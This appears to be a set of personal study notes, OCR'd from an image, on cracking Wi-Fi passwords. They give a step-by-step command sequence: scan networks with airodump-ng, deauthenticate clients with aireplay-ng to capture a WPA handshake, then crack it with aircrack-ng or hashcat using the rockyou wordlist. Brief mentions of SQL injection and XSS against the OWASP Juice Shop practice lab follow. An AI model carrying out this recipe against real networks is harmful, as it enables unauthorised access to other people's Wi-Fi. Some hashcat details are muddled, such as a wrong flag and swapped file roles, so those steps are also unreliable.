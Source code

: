 sudo airodump-ng wlan0mon (monitor mode interface) : outputs all wifis available

copy the BSSID (base station id) for the wifi to hack

sudo airodump-ng --bssid <bssid> -c 2 -w capture wlan0mon : capture pkts of wifi

in separate terminal: sudo aireplay-ng -0 0 -a <BSSID> -c <client> wlan0mon
we disconnect the clients so that we can spoof packets

aircrack-ng capture-01.cap -w /usr/share/wordlists/rockyou.txt
here, capture-01.cap is the captured file
/usr/share/wordlists/rockyou.txt : wordlist used



using hashcat
--------------
install hashcat

/usr/share/hashcat-utils/cap2hccapx.bin capture-01.cap capture.hccapx

hashcat -a 0 -n 2500 capture.hccapx /usr/share/wordlists/rockyou.txt -o cap.txt

one more method
---------------
hashcat -a 0 -m 100 top100.txt mine.txt -o password.txt 
-m : mode 100
top100.txt contains popular hashes
mine.txt : password list

owasp juice
-----------
login using sql injection to get admin access


Learn sql injection
xss cross site attack




